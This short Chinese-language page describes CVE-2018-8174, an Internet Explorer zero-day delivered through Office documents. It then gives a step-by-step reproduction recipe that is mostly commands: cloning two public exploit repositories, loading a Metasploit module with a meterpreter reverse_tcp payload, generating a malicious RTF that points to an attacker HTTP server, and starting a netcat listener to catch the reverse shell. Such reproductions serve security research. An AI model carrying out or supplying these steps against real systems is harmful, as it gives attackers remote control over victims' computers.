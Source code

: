 ## CVE-2018-8174
全球首例利用浏览器0day漏洞的新型Office文档攻击,该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在浏览网页或打开Office文档时都可能中招，最终被黑客植入后门木马完全控制电脑。微软在4月20日早上确认此漏洞，并于5月8号发布了官方安全补丁，对该0day漏洞进行了修复，并将其命名为CVE-2018-8174。

## 复现
使用参考1的exp，它只支持32位:
下载exp:
```
git clone https://github.com/0x09AL/CVE-2018-8174-msf.git
cp CVE-2018-8174.rb /usr/share/metasploit-framework/modules/exploits/windows/fileformat/
cp CVE-2018-8174.rtf /usr/share/metasploit-framework/data/exploits/
```
启动msf:
```
msfconsole
use exploit/windows/fileformat/CVE-2018-8174
set PAYLOAD windows/meterpreter/reverse_tcp
set srvhost 192.168.0.116
set lhost 192.168.0.116
exploit
```
使用参考2的，支持所有：
```
git clone https://github.com/Yt1g3r/CVE-2018-8174_EXP.git
cd CVE-2018-8174_EXP
python CVE-2018-8174.py -u http://1.1.1.1/exploit.html -o exp.rtf -i 2.2.2.2 -p 4444
python -m SimpleHTTPServer 6666
nc -lp 4444
```
## 参考
1. https://github.com/0x09AL/CVE-2018-8174-msf
2. https://github.com/Yt1g3r/CVE-2018-8174_EXP